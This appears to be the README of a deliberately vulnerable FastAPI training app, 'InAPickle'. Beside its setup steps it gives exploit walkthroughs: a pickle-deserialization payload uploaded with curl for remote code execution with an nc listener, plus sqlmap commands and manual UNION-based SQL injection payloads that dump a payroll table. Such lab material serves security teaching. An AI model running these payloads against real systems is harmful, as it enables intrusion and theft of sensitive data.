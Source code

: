 # InAPickle

## Requirements

Local Build:

- Python 3

- Python virtualenv

    ```bash
    python3 -m pip install --user virtualenv
    ```

Docker Build:

- Docker

## Install and Start FastAPI Locally

1. Clone this repo:

    ```bash
    git clone https://github.com/bluemountaincyber/inapickle
    cd inapickle
    ```

2. Start virtual environment:

    ```bash
    python3 -m virtualenv .venv
    . .venv/bin/activate
    ```

3. Install pip packages:

    ```bash
    pip install -r requirements.txt
    ```

4. Start FastAPI with uvicorn:

    ```bash
    uvicorn main:app --reload
    ```

5. App should now be reachable at http://localhost:8000.

## Install and Start FastAPI with Docker

1. Clone this repo:

    ```bash
    git clone https://github.com/bluemountaincyber/inapickle
    cd inapickle
    ```

2. Build docker image:

    ```bash
    docker build -t inapickle .
    ```

3. Start inapickle container:

    ```bash
    docker run -it --rm -p 8000:8000 --name inapickle inapickle
    ```

## Clues that this is exploitable

1. The Pickle icon...

2. The `/docs` page can be found usin `dirb` with the default wordlist (`common.txt`).

3. The `/docs` page is auto-generated and contains descriptions of methods and schemas. This explains that the backup/restore file is pickled Python data.

## Exploit

1. Edit the command you wish to run on the victim server (line 6 in poc.py):

    ```bash
    vim inapickle/poc.py
    ```

2. Run PoC script (generates inapickle/payload.txt):

    ```bash
    python3 inapickle/poc.py
    ```

3. (Optional) Set up listener. For example:

    ```bash
    nc -nlvp 4444
    ```

4. Perform remote code execution:

    ```bash
    curl -L -F 'file=@inapickle/payload.txt' localhost:8000/restore-sqlite
    ```

## BONUS Exploit - SQL Injection

### sqlmap Approach

1. List database tables:

    ```bash
    sqlmap -u http://localhost:8000/read-contact \
      --data='{"first_name":"Andy","last_name":"Matej"}' \
      -p first_name --batch --tables
    ```

2. Dump payroll table:

    ```bash
    sqlmap -u http://localhost:8000/read-contact \
      --data='{"first_name":"Andy","last_name":"Matej"}' \
      -p first_name --batch -T payroll --dump
    ```

### Manual Approach

1. Discover another sensitive table in the database:

    ```bash
    curl -XPOST 'http://localhost:8000/read-contact' \
      -H 'Content-Type: application/json' \
      --data-raw $'{"first_name":"\' or 1=1 UNION SELECT * FROM sqlite_schema WHERE type = \'table\';--","last_name":""}'
    ```

2. Dump payroll table:

    ```bash
    curl -XPOST 'http://localhost:8000/read-contact' \
      -H 'Content-Type: application/json' \
      --data-raw $'{"first_name":"\' or 1=1 UNION SELECT *,1 FROM payroll;--","last_name":""}'
    ```
